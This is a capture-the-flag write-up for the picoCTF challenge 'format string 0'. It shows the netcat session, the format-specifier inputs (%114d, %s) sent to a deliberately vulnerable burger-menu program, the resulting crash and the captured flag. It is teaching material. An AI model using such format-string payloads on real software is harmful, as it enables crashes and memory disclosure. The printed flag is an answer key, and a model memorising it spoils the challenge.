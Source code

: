 # format string 0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`

## My Solve
Firstly looking at the challenge name `format string 0` and the hint I figured out that we need to somehow make use of format specifiers to solve the challenge.
* Looking at the code it's clear that firstly a file named `flag.txt` has to be present in our working directory.
```
devarjya27@devarjya27-VirtualBox:~/Cryptonite TP2$ echo "flag" > flag.txt
```
* After that i initiated the challenge
```
devarjya27@devarjya27-VirtualBox:~/Cryptonite TP2$ nc mimas.picoctf.net 55252
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
```
* Here we can clearly see that `Gr%114d_Cheese` has a format specifier `%114d` so thats our input for this instance
```
Enter your recommendation: Gr%114d_Cheese 
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```
* Now only `Cla%sic_Che%s%steak` has the format specifier `%s` so thats our input for this instance.
```
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
And thus we get our flag

## Incorrect Tangents I Went On
Initially when i looked at the code for the program. The following part stuck out to me.

![image](https://github.com/user-attachments/assets/5901f25f-11dd-455c-a7c4-3f26bdfd84af)

I thought that if we input a random string greater than `2 * BUFSIZE` i.e. 64 then `serve_bob` would be called from within `serve_patrick` but it did not work as our input must be on the `menu` therefore `Gr%114d_Cheese` works which is on the menu and inputs a integer whose size is more than 64 thus calling the `serve_bob` function.

## What I Learned
Its never a good idea to expect input from the user which includes format specifiers as it can lead to unexpected behaviour which can be dangerous. As the challenge was relatively easy I did not require any references.
